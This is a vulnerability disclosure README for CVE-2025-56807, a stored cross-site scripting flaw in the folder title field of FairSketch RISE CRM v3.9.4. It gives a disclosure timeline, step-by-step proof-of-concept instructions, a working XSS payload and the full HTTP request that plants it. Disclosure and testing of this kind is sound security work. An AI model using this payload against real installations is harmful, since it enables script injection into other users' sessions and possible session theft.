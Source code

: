 # CVE-2025-56807
# Description
A Stored Cross Site Scripting (XSS) vulnerability was discovered in FairSketch RISE Ultimate Project Manager & CRM (v3.9.4) in the File Manager functionality. The vulnerability lies in the _**title parameter**_ that is submitted when creating new folders. Due to insufficient input sanitization an attacker can inject _**HTML/JavaScript payloads (e.g., `<details/open/ontoggle=prompt(origin)>`)**_. The payload is stored in the folder name and executed when listing folders in the File Manager, allowing arbitrary JavaScript execution in the browser of any user who views the affected folder. This may result in session hijacking and data exfiltration.

# Disclosure Timeline
* Assigned CVE ID: **CVE-2025-56807**
* Discovery: July 2025 (by Aqwa Hameed)
* Vendor Notified: Emailed Fairsketch support
* Response: Acknowledged by vendor on July 22, 2025

# Proof of Concept (PoC)
1. Login with valid credentials.
2. Navigate to **Files**
<br/><br/>
![Dashboard](https://github.com/aqwainfosec/CVE-2025-56807/blob/main/assets/dashboard.png?raw=true)

3. Click **New Folder**
<br/><br/>
![File Manager](https://github.com/aqwainfosec/CVE-2025-56807/blob/main/assets/file_manager.png?raw=true)

4. Enter the payload below in the **Title** field, enter:
```js
<details/open/ontoggle=prompt(origin)>
```
![Folder Title](https://github.com/aqwainfosec/CVE-2025-56807/blob/main/assets/malicious_folder.png?raw=true)

5. Reload the File Manager page to trigger the payload
<br/><br/>
![Payload Execution](https://github.com/aqwainfosec/CVE-2025-56807/blob/main/assets/payload_execution.png?raw=true)

# Request
```http
POST /index.php/clients/save_folder HTTP/1.1
Host: rise.fairsketch.com
Cookie: [redacted]
Content-Length: 99
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: [redacted]
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: https://rise.fairsketch.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

id=&parent_id=&context=client&context_id=101&title=%3Cdetails%2Fopen%2Fontoggle%3Dprompt(origin)%3E
```
